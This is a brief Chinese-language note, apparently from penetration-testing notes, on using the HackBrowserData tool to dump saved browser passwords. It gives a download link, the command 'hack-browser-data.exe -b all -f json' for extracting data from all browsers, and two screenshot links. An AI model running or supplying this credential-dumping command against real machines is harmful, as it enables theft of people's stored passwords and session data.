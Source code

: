 ### HackBrowserData 抓取浏览器保存密码

[下载工具](https://github.com/moonD4rk/HackBrowserData)

```cmd
hack-browser-data.exe -b all -f json
```

![](https://pic1.imgdb.cn/item/68cc7611c5157e1a8817faee.png)

![](https://pic1.imgdb.cn/item/68cc7653c5157e1a8817fb07.png)